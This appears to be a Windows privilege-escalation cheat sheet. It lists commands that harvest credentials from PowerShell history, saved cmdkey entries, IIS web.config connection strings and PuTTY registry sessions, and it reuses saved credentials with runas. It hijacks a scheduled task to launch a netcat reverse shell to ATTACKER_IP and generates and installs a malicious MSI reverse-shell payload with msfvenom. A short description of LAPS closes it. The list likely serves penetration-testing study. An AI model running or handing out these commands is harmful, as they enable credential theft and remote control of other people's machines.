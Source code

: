 ## Powershell History

type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

## Saved windows credentials

cmdkey /list
runas /savecred /user:admin cmd.exe

## IIS config

C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

## PuTTy

reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

## Tasks

schtasks /query /tn vulntask /fo list /v
icacls c:\tasks\schtask.bat
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
schtasks /run /tn vulntask

## Revshell

Linux: msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.200.111 LPORT=LOCAL_PORT -f msi -o malicious.msi
Windows: msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
Windows cmd:
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
C:\> schtasks /run /tn vulntask

# AD

## LAPS

Local Administrator Password Solution
password is:
• Unique on each managed computer
• Randomly generated
• Securely stored in AD infrastructure
Solution is built upon just AD infrastructure, so there is no need to install and support other technologies.
Solution itself is a Group Policy Client Side Extension that is installed on managed machines and performs all management tasks
Management tools delivered with the solution allow for easy configuration and administration.
